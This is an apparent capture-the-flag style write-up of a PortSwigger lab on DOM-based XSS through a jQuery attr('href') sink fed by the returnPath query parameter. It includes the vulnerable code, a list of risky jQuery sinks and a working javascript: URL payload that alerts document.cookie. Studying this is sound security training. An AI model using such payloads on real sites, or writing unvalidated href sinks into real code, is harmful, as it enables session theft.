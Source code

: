 # [Lab: DOM XSS in jQuery anchor href attribute sink using location.search source](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink)

## Jquery Sink  

```plaintext
In the context of Cross-Site Scripting (XSS) vulnerabilities, 
a "sink" is a point in the code where untrusted input is 
inserted into the HTML document or executed as code, 
potentially leading to XSS attacks. jQuery, a popular 
JavaScript library, provides many functions that manipulate 
the DOM or execute JavaScript code, and these functions can 
act as sinks if they are used improperly.
```
## Vulnerable Sinks
`.html()` `.append()` `.prepend()` `.after()` `.before()`  

 `.val()` `.text()`  `.attr()` `.replaceWith()` `.wrap()`   

 `.wrapInner()` `.wrapAll()` `.load()` `.htmlPrefilter()`  
 
 `.prop()` `.css()` `.on()` 

## Process
```plaintext
----------------------------------------------------------------
1. Find the parameter where you can have the "back" button
2. Actually it is the feedback page where there is a back button
3. If you inspect the back button you will find an anchor href which is locating to the 
 home directory of the website

4. There will be a $ sign in the jquery syntax. 
```

## Frontend
```js
<div class="is-linkback">
    
    <a id="backLink" href="/">Back</a>

</div>
<script>
    
    $(function() { $('#backLink').attr("href", (newURLSearchParams(window.location.search)).get('returnPath')); });

</script>
```

## Link 
`https://0acc00d2030323cb80eb3a4300620029.web-security-academy.net/feedback?returnPath=/`

## Payload
```js
returnPath=javascript:alert(document.cookie)
// as we know javascript: is can be used in the anchor
``` 

## Frontend After the Exploitation
```js
<div class="is-linkback">
    
    <a id="backLink" href="javascript:alert(document.cookie)">Back</a>

</div>
<script>
    
    $(function() { $('#backLink').attr("href", (newURLSearchParams(window.location.search)).get('returnPath')); });

</script>

```
> ### *If we click the back button our exploit will be ran*

![dom_success](https://github.com/Ruhanyat-994/XSS/assets/110297704/84eeab5a-fb5d-48ad-838f-66ff0c1c8f4a)

